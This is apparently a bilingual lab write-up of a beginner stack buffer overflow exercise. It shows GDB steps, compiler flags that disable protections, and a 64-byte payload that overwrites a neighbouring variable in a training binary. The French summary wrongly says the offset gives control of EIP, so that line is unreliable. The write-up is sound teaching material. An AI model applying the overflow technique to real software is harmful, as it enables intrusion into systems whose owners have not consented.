




# Explanation

1. **Compile**

```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack0.c -o Stack0
```

2. **Drop into GDB and locate vulnerable read**
```bash
gdb ./Stack0

(gdb) disassemble main
```


- Scan for call to `gets`/`strcpy`/`fgets` (whichever unsafe function used).
- Note its address, say `0x080491a6`.


3. **Break at that instruction**
```gdb
(gdb) break *0x080491a6
```

4. **Run a large dummy payload**
```gdb
#directly from GDB
(gdb) run < <(python3 -c "print('A'*200)")
```

5. **When it stops print the addresses**
```gdb
(gdb) print &buffer        # start of buffer
(gdb) print &modified     
```


This gives you the number of filler bytes you need to reach `target` (whether it’s a local var or saved RIP/EIP).

6. **Compute exact byte distance**
```gdb
(gdb) print (char*)&modified - (char*)&buffer #will find exact offset
64
```


7. **Craft payload and execute**

```bash
python3 -c 'print("A"*64 + "B")' | ./Stack0
```



# What I learned

- A basic stack-based buffer overflow can redirect execution with just user-supplied data—no need for advanced tricks.
- The magic number here is 64 bytes.
- GDB’s basics—disas, info registers, simple breakpoints—are enough to prove the takeover.
- Turning off modern flags (-fno-stack-protector, -z execstack, etc.) lets you see the raw bug in action.

# Ce que j’ai appris

- Un simple overflow sur la pile suffit à détourner le flux d’exécution ; pas besoin de gadgets sophistiqués.
- **64 octets** exactement : c’est la distance qui me donne la main sur EIP.
- Trois commandes GDB — `disas`, `break`, `info reg` — et le contrôle est évident.
- En désactivant les protections (`-fno-stack-protector`, `-z execstack`, `-no-pie`), on voit la vulnérabilité à l’état brut.
